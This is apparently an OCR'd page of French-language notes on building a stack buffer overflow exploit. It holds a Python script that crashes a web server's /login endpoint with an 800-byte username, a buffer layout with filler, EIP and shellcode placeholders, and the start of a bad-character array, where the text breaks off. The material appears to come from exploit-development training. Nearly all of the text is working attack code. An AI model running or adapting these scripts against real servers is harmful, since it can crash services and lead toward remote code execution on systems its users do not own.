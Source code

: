 
---

### 2️⃣ Payload de crash initial (`stack_overflow_0x01.py`)

```python
#!/usr/bin/python
import socket, sys

try:
  server = sys.argv[1]
  port = 80
  payload = b"A" * 800
  content = b"username=" + payload + b"&password=A"

  request  = b"POST /login HTTP/1.1\r\n"
  request += b"Host: " + server.encode() + b"\r\n"
  request += b"Content-Type: application/x-www-form-urlencoded\r\n"
  request += b"Content-Length: " + str(len(content)).encode() + b"\r\n\r\n"
  request += content

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(request)
  s.close()
except:
  print("Échec")

```


---

### 3️⃣ Payload avec structure exploit standard (`stack_overflow_0x04.py`)

```python
filler = b"A" * 780
eip     = b"B" * 4
offset  = b"C" * 4
shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + shellcode

```

---

### 4️⃣ Vérification des caractères interdits (bad chars)

```python
badchars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
    b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
    b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
    b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
    b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
    b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
    b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
    b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
    b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
    b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
    b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
    b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
    b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
    b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
```